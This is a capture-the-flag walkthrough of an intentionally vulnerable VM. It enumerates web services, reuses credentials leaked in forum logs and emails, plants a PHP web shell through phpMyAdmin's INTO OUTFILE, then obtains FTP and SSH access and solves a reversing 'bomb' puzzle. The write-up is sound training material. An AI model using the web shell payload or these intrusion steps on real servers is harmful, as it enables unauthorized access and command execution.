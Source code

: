 ### http server

We have analyze http server with ssl certificate using gobuster.

`-k` option is used to skip SSL certificate verification. Without this option we can´t launch command.
We have a lot of pages allowed without permission.  
We can analyze each pages to obtains anothers pages:

```bash
$gobuster dir -u $IP:443 -w /usr/share/wordlists/dirb/big.txt -k
...
/cgi-bin/             (Status: 403) [Size: 291]
/forum                (Status: 301) [Size: 318] [--> https://192.168.56.101/forum/]
/phpmyadmin           (Status: 301) [Size: 323] [--> https://192.168.56.101/phpmyadmin/]
/server-status        (Status: 403) [Size: 296]
/webmail              (Status: 301) [Size: 320] [--> https://192.168.56.101/webmail/]
```

Resume: We have a lot of interresting pages: 

| **SERVICE NAME** | **PAGE NAME** | **VERSION**    |
|------------------|---------------|----------------|
| My litte Forum   | forum         | 2              |
| Phpmyadmin       | phpmyadmin    | 3.4.10.1       |
| SquirrelMail     | webmail       | 1.4.22         |
| MySQL            | NONE          | 2.3 ?          |


On the page `https://192.168.56.101/forum/index.php?id=6` we have a lot of connection logs from `lmezard`. We can see this: 

```bash
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
```

The last input is weird, we can suppose it's a password. So we have tried to connect us at the forum with the login `lmezard` and the password `!q\]Ej?*5K5cy*AJ`.  
It's working !  

Now we can inspect user page. We have an email `laurie@borntosec.net`.  
We can try to connect us at the `webmail` page.  
It's working !

```bash
id: laurie@borntosec.net
pw: !q\]Ej?*5K5cy*AJ
```

We can inspect mail. There are 2 mails. `DB Access` and `Very interesting !!!!`.  
With the first mail we have credentials to DB access. We can try it.  
It's working ! 

```bash 
id: root
pw: Fg-'kKXBj87E:aJ$
```

We can inspect it.  
We have a `forum_db` database with various table like `mlf2_userdata`.  
To have access of admin account, we have tried to change admin password by laurie password but it's not working.  

Because of the default configuration of phpmyadmin gives the user full access of mysql command we can create a [backdoor](https://www.informit.com/articles/article.aspx?p=1407358&seqNum=2) to the server itself.  
We can use this command in our phpmyadmin:  

```sql
select '<?php system($_GET["cmd"]); ?>' into outfile "/var/www/forum/templates_c/cmd.php";
```
We have written php code in the file `/var/www/forum/templates_c/cmd.php` to execute any strings in the `cmd` parameter. 
When visiting the url `/forum/templates_c/cmd.php?cmd=ls` the code will be executed.  

After executing many commands, we have found a file `password` in `/home/LOOKATME/`.  

```bash
cmd=cat /home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF" 
```

This `credentials` can be used on ftp server. With this access with have obtained 2 files:

```bash
$ftp $IP
220 Welcome on this server
Name (192.168.56.101:parrot): lmezard 
331 Please specify the password.
Password:
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
```
`README` give instructions: complete the challenge to obtain password of ssh user `laurie`.
`fun` is a puzzle. Using `file` command on fun. We have seen that it was a `tar archive`. So we have extract this file to obtain a directory in wich have lot of files.  
In order to understand wich append in these files we have cat all in a single output:   

```bash
$file fun
fun: POSIX tar archive (GNU)
$tar -xf fun
$cat * > output.txt
```
We have read this file. It seems to be a puzzle of program. Each file has a comment with file number.  
We have write a script to sort all files by his file_number. After that, we have a C program. We can compile it with gcc to obtain a phrase `Iheartpwnage`.

```bash
$ rustc merge_files.rs && ./merge_files
Done merging files into ft_fun.c
$ gcc ./ft_fun.c
$ ./a.out 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit%
$ echo -n "Iheartpwnage" | sha256sum
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4  -
```

```bash
ssh laurie@192.168.56.101
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.56.101's password: 
laurie@BornToSecHackMe:~$
```
Its working !


Now that we are connected on laurie we can inspect is `home` directory:  

```bash
laurie@BornToSecHackMe:~$ ls
bomb  README
laurie@BornToSecHackMe:~$ cat README 
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).

laurie@BornToSecHackMe:~$ ./bomb 
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
6

BOOM!!!
The bomb has blown up.
```

We have used ghidra to obtain C code and complete the puzzles. Each point refered to a function in the programm.
To get the binary in host we have used `scp`:  

```bash
scp bomb parrot@192.168.56.108:/home/parrot/Documents/boot2root
parrot@192.168.56.108's password: 
bomb                                          100%   26KB  26.3KB/s   00:00    
```

We have reverse all function and obtained values:  

* Public speaking is very easy. (String is given.)
* 1 2 6 24 120 720 (Each previous value give us the current: val[n - 1] * i. First value is give.)
* 1 b 214 OU 2 b 755 OU 7 b 524 (Simple switch case.)
* 9 (We have brute force this function to obtain result. ([script](puzzle4.c)))
* opekma (This issue is working but another response are possible.)
* 4 2 6 3 1 5 (It was a chained list in which each value must be sorted in descending order.)

Because have a lot of possibilities, we have write a [script](thor_password.js) to find it.

```bash
laurie@BornToSecHackMe:~$ ./bomb test.txt
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
Public speaking is very easy.
Phase 1 defused. How about the next one?
1 2 6 24 120 720
That's number 2.  Keep going!
1 b 214
Halfway there!
9
So you got that one.  Try this one.
opekma     
Good work!  On to the next...
4 2 6 3 1 5
Congratulations! You've defused the bomb!
```

